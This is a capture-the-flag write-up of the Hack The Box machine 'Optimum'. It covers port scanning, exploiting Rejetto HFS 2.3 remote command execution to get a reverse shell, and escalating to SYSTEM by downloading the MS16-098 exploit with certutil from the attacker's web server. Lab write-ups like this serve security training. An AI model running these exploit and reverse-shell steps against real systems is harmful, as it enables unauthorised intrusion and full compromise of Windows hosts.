

# Optimum

## Nmap Scan


```bash
❯ nmap -p- --open --min-rate 5000 -sS -n -Pn -vvv 10.10.10.8 -oG allPorts

Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-22 23:44 -03
Initiating SYN Stealth Scan at 23:44
Scanning 10.10.10.8 [65535 ports]
Discovered open port 80/tcp on 10.10.10.8
Completed SYN Stealth Scan at 23:45, 28.66s elapsed (65535 total ports)
Nmap scan report for 10.10.10.8
Host is up, received user-set (0.34s latency).
Scanned at 2023-01-22 23:44:57 -03 for 29s
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 28.76 seconds
           Raw packets sent: 131090 (5.768MB) | Rcvd: 4 (176B)
```

```bash
❯ nmap -p80 -sCV 10.10.10.8 -oN Targeted

Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-22 23:45 -03
Nmap scan report for 10.10.10.8
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.57 seconds
```

There is a version of a technology running in port 80, I'll check if it have some public vulnerabilities.

```bash
❯ searchsploit HFS 2.3
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                          |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)                                                                                             | windows/remote/49584.py
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)                                                                                             | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                                                                          | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                                                                     | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                                                                     | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                                                                                | windows/webapps/34852.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Nice, we can test if the **Remote Code Execution** works in this machine.

## Shell as kostas

```bash
❯ searchsploit -m windows/remote/39161.py
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
File Type: Python script, ASCII text executable, with very long lines

Copied to: /home/bara/hackthebox/machines/optimum/exploits/39161.py
```

```python
[snip]
 def nc_run():
  urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

 ip_addr = "192.168.44.128" #local IP address
 local_port = "443" # Local Port number
 vbs = "C:\Users\Public\script.vb
[snip]
```

I just need to change the _ip_addr_ to mine. To run the exploit we need to set a listener on port 443 and a web server with the _nc.exe_
`python3 -m http.server 80` and `rlwrap nc -lvnp 443` Im using rlwrap because this is a Windows machine.
We need to run the exploit 2 times and we got Reverse Shell as **kostas**

```bash
❯ python2 39161.py 10.10.10.8 80
❯ python2 39161.py 10.10.10.8 80

listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49174
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

Directory of C:\Users\kostas\Desktop

29/01/2023  01:42     <DIR>          .
29/01/2023  01:42     <DIR>          ..
18/03/2017  02:11            760.320 hfs.exe
29/01/2023  01:41                 34 user.txt
               2 File(s)        760.354 bytes
               2 Dir(s)   5.619.585.024 bytes free

type user.txt
type user.txt
ac82ec122706cf8f**************

```

## Windows Exploit Suggester

The first thing that I'm going to do is to get the information of the system with `systeminfo` and copy all the output into a file called _sysinfo.txt_.
I'm going to use a tool called [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester), this tool will look for vulnerabilities in the system just with the information of the system.

```bash
❯ windows-exploit-suggester.py -u
[*] initiating winsploit version 3.3...
[+] writing to file 2023-01-23-mssb.xls
[*] done

❯ windows-exploit-suggester.py -d 2023-01-23-mssb.xls -i sysinfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
[*] 
[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
[*]   https://github.com/foxglovesec/RottenPotato
[*]   https://github.com/Kevin-Robertson/Tater
[*]   https://bugs.chromium.org/p/project-zero/issues/detail?id=222 -- Windows: Local WebDAV NTLM Reflection Elevation of Privilege
[*]   https://foxglovesecurity.com/2016/01/16/hot-potato/ -- Hot Potato - Windows Privilege Escalation
[*] 
[snip]
[*] done

```

Well, that are all the possible exploits that we can use to elevate our privilege to _nt authority\system_. I'll use this one [(MS16-098)](https://www.exploit-db.com/exploits/41020/) that worked for me, you can try other if you want, but the exploitation will be different.

<center></center>

With that number we can go trough [here](https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/tree/main/bin-sploits) to see the exploit file.

<center></center>

To check the exploit I'll trasfer it to the victim machine.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [23/Jan/2023 00:29:05] "GET /41020.exe HTTP/1.1" 200 -
10.10.10.8 - - [23/Jan/2023 00:29:07] "GET /41020.exe HTTP/1.1" 200 -
```

```powershell
certutil.exe -f -urlcache -split http://10.10.14.10:80/41020.exe 41020.exe
****  Online  ****
  000000  ...
  088c00
CertUtil: -URLCache command completed successfully.

C:\Users\kostas\Desktop>
```

We run the executable and we are **nt authority\system**

```powershell
.\41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

whoami
nt authority\system

C:\Users\kostas\Desktop>
```

Thanks for reading!

